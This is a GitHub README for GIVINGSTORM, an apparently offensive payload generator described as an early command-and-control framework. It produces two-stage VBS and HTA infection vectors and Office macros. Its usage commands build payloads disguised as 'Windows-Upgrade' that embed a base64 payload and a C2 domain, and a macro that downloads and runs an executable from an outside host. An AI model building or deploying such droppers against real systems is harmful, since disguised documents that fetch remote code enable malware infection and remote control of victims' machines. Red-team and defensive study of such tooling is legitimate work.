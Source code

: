 # GIVINGSTORM
[[![MIT license](https://img.shields.io/badge/License-MIT-blue.svg)](https://lbesson.mit-license.org/)
[![PyPI pyversions](https://img.shields.io/pypi/pyversions/ansicolortags.svg)](https://pypi.python.org/pypi/ansicolortags/)
[![Maintenance](https://img.shields.io/badge/Maintained%3F-yes-green.svg)](https://GitHub.com/Naereen/StrapDown.js/graphs/commit-activity)
[![GitHub release](https://img.shields.io/github/release/Naereen/StrapDown.js.svg)](https://GitHub.com/Naereen/StrapDown.js/releases/)
[![GitHub stars](https://img.shields.io/github/stars/Naereen/StrapDown.js.svg?style=social&label=Star&maxAge=2592000)](https://GitHub.com/Naereen/StrapDown.js/stargazers/)
[![GitHub watchers](https://img.shields.io/github/watchers/Naereen/StrapDown.js.svg?style=social&label=Watch&maxAge=2592000)](https://GitHub.com/Naereen/StrapDown.js/watchers/)
[![GitHub forks](https://img.shields.io/github/forks/Naereen/StrapDown.js.svg?style=social&label=Fork&maxAge=2592000)](https://GitHub.com/Naereen/StrapDown.js/network/)

The beginnings of a C2 framework. Currently without all the C2 stuff so far. Generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
GIVINGSTORM is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  `python3 givingstorm.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain`

# HTA Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/hta.png)

For the Macro Subroutine:
  `python3 givingstorm.py -n Windows-Upgrade -e amazon.com/final/payload.exe`

# Macro Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/macro.png)
